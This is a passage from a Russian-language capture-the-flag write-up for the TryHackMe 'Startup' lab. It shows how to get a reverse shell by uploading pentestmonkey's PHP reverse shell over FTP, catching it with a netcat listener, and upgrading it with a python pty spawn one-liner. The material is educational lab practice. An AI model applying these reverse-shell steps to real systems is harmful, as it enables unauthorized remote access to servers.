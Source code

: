 ``` http://10.10.46.240/files/ftp``` 
* И вставляем наш сгенерированный питон

> *Почему питон, т.к прст решил его заюзать, тк бывает на +-многих серваках стоит питон, и поэтому я решил его заюзать и это сработало))) *

### Перед этим
**Нам нужно ввести в терминал следующую команду:**
```
┌──(root💀kali)-[/home/kali/Desktop/THM-Startup]
└─# nc -lvnp 8888
listening on [any] 8888 ...
```

**Далее, вводим в поле команду **
![](https://i.imgur.com/JFWwPxY.png)


**И видем следующие:**
```
┌──(root💀kali)-[/home/kali/Desktop/THM-Startup
└─# nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.9.7.125] from (UNKNOWN) [10.10.46.240] 46122
$ 
```

* **Отлично мы получили коннект к серверу)**

## 2 способ получение коннекта к серверу
Нам нужно скопировать скрипт из следующего гитхаба:
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
Далее в Кали линукс зайти создать файлик 
revershe.php к примеру и туда вставить весь скрипт. 
* При этом нужно изменить следующие строки
![](https://i.imgur.com/Cz4RAZP.png)
IP - вводим свой хостовой машины
Port - любой к примеру 8888

Далее заходим на ftp сервер и закидываем его туда.
В терминале пишем nc -nvlp 8888
 
Дальше заходим по данному пути
http://10.10.46.240/files/ftp/reverse.php

И МЫ ПОЛУЧАЕМ КОННЕКТ )))
ООттллиичнноо Идем дальше 




*Теперь мы можем здесь побегать и порыскать файлики.*
Но для того, чтобы аддекватно пользоваться терминалом нужно ввести следующую команду:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Такс мы получили терминал в таком ввиде
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/var/www/html/files/ftp$ ls
ls
index.php
www-data@startup:/var/www/html/files/ftp$ 
```
```